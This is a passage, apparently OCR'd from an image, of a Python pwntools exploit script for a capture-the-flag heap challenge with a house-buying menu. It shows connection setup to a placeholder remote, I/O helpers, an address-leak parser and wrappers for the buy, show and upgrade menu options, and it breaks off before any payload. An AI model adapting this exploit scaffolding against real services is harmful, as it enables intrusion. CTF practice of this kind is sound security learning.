 ```
    p = process(pc,aslr=aslr)
    #gdb.attach(p, "b malloc_printerr")
else:
    remote_addr=['6.6.6.6', 6666]
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

def buy_house(index, size, buf, logging = False):
    ru("Your choice: ")
    log.info("target price --> {price}".format(price = hex(size * 0xDA & 0xffffffffffffffff)))
    sl("1")
    ru("Your money:")
    money_now = int(rl().strip())
    log.info("money_now --> {money_now}".format(money_now = hex(money_now)))
    ru("Index:")
    sl(str(index))
    ru("Size:")
    sl(str(size))
    ru("Price:")
    log.info("price --> {price}".format(price = hex(int(rl().strip()))))
    if logging == True:
        return
    if(p.read(6) != "House:"):
        rl()
        log.critical("fucked a really big house")
        return
    sn(buf)

def show_house(index, reading = True):
    ru("Your choice: ")
    sl("2")
    ru("Index:")
    sl(str(index))
    if reading == True:
        return ru("$$$$$$$$$$$$$$$$$$$$$$$$$$$$")[:-len("$$$$$$$$$$$$$$$$$$$$$$$$$$$$")]

def upgrade(index, buf):
    ru("Your choice: ")
    sl("4")
    ru("Index:")
    sl(str(index))
    ru("House:")
    sn(buf)

def sell(index):
    ru("Your choice: ")
    sl("3")
```